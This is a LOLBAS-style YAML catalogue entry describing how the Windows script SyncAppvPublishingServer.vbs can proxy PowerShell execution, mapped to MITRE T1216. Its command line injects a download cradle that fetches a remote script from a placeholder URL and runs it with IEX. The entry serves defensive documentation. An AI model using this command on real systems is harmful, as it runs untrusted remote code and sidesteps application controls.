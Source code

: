 ```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: "@monoxgas"
  - Person: Casey Smith
    Handle: "@subtee"
---
```

